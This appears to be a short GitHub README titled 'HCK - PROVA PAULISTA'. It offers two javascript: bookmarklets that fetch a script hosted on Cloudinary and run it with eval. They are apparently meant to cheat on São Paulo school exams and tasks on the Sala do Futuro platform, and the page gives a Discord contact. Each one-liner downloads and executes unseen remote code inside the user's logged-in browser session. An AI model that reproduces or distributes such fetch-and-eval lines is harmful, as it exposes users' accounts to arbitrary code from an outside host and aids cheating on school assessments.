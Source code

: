 # 🚀 HCK - PROVA PAULISTA 

### STABLE HCK - PROVA PAULISTA:
```js
javascript:fetch("https://res.cloudinary.com/dctxcezsd/raw/upload/v1745012111/saladofuturo.js").then(t=>t.text()).then(eval);
```
### FANDAGOS - TAREFAS:
```js
javascript:fetch("https://res.cloudinary.com/dctxcezsd/raw/upload/v1745784863/saladofuturov2.js").then(t=>t.text()).then(eval);
```

### Discord: hackermoon
